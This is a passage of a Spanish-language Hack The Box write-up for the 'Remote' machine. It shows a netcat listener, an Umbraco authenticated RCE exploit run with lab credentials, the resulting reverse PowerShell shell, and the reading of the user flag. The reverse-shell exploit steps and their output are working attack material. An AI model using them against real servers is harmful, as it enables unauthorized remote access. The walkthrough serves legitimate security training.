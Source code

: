 ![Write-up Image](images/Screenshot_12.png)

Ahora si nos ponemos en escucha por el puerto 4444 con `netcat`
```console
rlwrap -cEr nc -lvnp 4444
listening on [any] 4444 ...
```

Y lanzamos el exploit, tenemos una excepción pero es normal ya que intenta buscar una parte del código que hemos borrado.
```console
python3 exploit.py -u admin@htb.local -p baconandcheese -w 'http://10.129.230.172' -i 10.10.14.87
[*] Logging in at http://10.129.230.172/umbraco/backoffice/UmbracoApi/Authentication/PostLogin
[*] Exploiting at http://10.129.230.172/umbraco/developer/Xslt/xsltVisualize.aspx
Traceback (most recent call last):
  File "/home/kali/Desktop/remote/content/Umbraco-RCE/exploit.py", line 91, in <module>
    main()
  File "/home/kali/Desktop/remote/content/Umbraco-RCE/exploit.py", line 69, in main
    initial.wait_for_connection()
    ^^^^^^^
NameError: name 'initial' is not defined
```

Pero recibimos la conexión y conseguimos una consola en la máquina víctima.
```console
rlwrap -cEr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.230.172] 49697
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
whoami
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

Podemos leer la flag de usuario que se encuentra en `C:\Users\Public\Desktop`
```console
PS C:\USers\Public\Desktop> dir
    Directory: C:\USers\Public\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/20/2020   2:14 AM           1191 TeamViewer 7.lnk
-ar---       11/29/2024   9:50 AM             34 user.txt
type user.txt
PS C:\USers\Public\Desktop> type user.txt
9b96ef964cb7e1c5...
```
